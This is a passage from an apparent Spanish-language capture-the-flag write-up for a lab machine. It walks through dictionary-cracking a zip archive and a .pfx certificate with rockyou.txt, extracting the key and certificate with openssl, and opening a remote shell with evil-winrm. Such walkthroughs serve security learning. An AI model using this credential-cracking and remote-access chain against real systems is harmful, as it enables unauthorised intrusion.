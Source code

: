 > fcrackzip -v -u -D -p rockyou.txt winrm_backup.zip;

```console
found file 'legacyy_dev_auth.pfx', (size cp/uc   2405/  2555, flags 9, chk 72aa)
checking pw udehss                                  

PASSWORD FOUND!!!!: pw == supremelegacy
```

Una vez descomprimido el archivo, vemos de extraer la llave privada del archivo pfx, sin embargo vemos que tiene contraseña

> openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes

```console
Enter Import Password:
Mac verify error: invalid password?
```

Para crackear el archivo .pfx utilizamos la siguiente herramienta <https://github.com/crackpkcs12/crackpkcs12> y encontramos el password thuglegacy

> crackpkcs12 -d rockyou.txt legacyy_dev_auth.pfx

```console
Dictionary attack - Starting 8 threads

*********************************************************
Dictionary attack - Thread 2 - Password found: thuglegacy
*********************************************************
```

con el nuevo password encontrado descomprimimos la clave privada y el cerficado del archivo .pfx

> openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificate.pem
>
> openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes

Por tanto con el certificado firmado y la clave privada podemos ingresar con `evil-winrm` a la maquina víctima

> evil-winrm -i 10.10.11.152 -c certificate.pem -k priv-key.pem -S

```console
Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```
